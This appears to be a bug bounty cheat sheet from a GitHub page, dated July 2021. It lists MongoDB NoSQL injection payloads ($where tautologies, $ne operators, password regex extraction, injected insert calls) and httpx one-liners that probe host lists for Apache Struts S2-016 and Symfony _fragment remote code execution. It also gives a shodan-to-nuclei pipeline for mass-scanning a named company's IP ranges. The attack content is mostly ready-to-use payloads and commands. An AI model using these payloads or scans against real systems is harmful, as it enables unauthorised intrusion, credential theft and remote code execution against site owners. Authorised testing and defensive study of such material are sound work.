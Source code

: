 # Bug Bounty Tips - July 2021

## Android Pentesting Cheatsheet
- [Android Pentest Notes](Android-Pentest.md)

## Payloads for NoSQL Injection
```sql
true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
|| 1==1//
|| 1==1%00
}, { password : /.*/ }
' && this.password.match(/.*/)//+%00
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
```

## Forced Browsing to Access Admin Panel
- https://vijetareigns.medium.com/forced-browsing-to-access-admin-panel-214a7defa2a5

## [XML SQL Injection](https://twitter.com/intigriti/status/1413825337927114756?s=20)
![img](https://pbs.twimg.com/media/E57qpwdXIAIj9Tx?format=jpg&name=small)

## [Remote Command Execution ( Apache Struts S2-016) test via @pdiscoveryio httpX](https://twitter.com/Alra3ees/status/1416185619336814596?s=20)
```sh
httpx -l hosts.txt -path /sm/login/loginpagecontentgrabber.do -threads 100 -random-agent -x GET -title -tech-detect -status-code  -follow-redirects -title -mc 200
```

## [GraphQL CSRF by changing content-Type](https://twitter.com/intigriti/status/1416363312296734720?s=20)
![img](https://pbs.twimg.com/media/E6fu7RXXMAAe-PZ?format=jpg&name=small)

## [Search for company IPs on shodan and scan them via nuclei:-](https://twitter.com/Alra3ees/status/1418757246419415040?s=20)

Install shodan and Add your api key 
shodan init <api key>

Run:-
```sh
shodan search org:"google"  --fields ip_str,port --separator " " | awk '{print $1":"$2}' | httprobe | nuclei -c 100  -t  nuclei-templates/
```
![img](https://pbs.twimg.com/media/E7BvktCX0AEfak8?format=jpg&name=large)

## [The easiest way to find RCE:-](https://twitter.com/Alra3ees/status/1419058927422017540?s=20)
```sh
httpx -l hosts.txt -path /_fragment?_path=_controller=phpcredits&flag=-1 -threads 100 -random-agent -x GET  -tech-detect -status-code  -follow-redirects -title -mc 200 -match-regex "PHP Credits"
```
